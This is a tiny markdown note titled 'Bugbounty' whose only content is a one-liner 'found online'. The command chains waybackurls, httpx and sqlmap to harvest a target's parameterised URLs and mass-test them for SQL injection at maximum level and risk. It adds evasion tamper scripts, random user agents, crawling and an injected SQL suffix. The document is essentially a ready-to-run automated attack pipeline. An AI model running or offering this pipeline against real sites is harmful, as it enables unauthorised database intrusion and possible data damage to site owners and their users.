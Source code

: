 # Bugbounty
## 2024 Oneliners found online
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'
